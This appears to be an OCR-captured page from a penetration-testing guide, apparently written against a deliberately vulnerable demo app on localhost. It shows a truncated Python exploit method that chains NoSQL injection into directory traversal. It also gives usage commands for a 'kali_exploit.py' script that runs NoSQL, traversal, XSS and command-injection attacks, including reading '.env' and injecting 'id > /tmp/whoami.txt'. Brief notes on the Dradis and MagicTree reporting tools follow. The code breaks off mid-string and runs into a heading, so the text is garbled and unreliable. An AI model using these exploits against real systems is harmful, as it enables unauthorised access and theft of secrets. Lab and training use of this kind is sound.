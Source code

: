 ```python
    
    def directory_traversal(self):
        """Exploit directory traversal to read files"""
        print("[*] Testing directory traversal...")
        
        if not self.nosql_injection():
            return
        
        payload = {
            "email": "admin@snyk.io",
            "firstname": "admin",
            "lastname
### Usage Examples

```bash
# Run all exploits
python3 kali_exploit.py --target http://localhost:3001

# Run specific exploit
python3 kali_exploit.py -e nosql
python3 kali_exploit.py -e traversal
python3 kali_exploit.py -e xss

# Custom directory traversal target
python3 kali_exploit.py -e traversal -f "./../.env"

# Custom command injection
python3 kali_exploit.py -e cmdinj -c "id > /tmp/whoami.txt"
```

---

## 7. Reporting Tools

### 7.1 Dradis Framework - Collaborative Reporting

```bash
# Start Dradis
dradis

# Access at: http://localhost:3000
# Import scan results from Nmap, Burp, ZAP, etc.
# Generate PDF/HTML reports
```

---

### 7.2 MagicTree - Penetration Testing Productivity Tool

```bash
# Launch MagicTree
magictree

# Import Nmap XML
# Import Burp Scanner results
# Organize findings
# Generate reports
```

---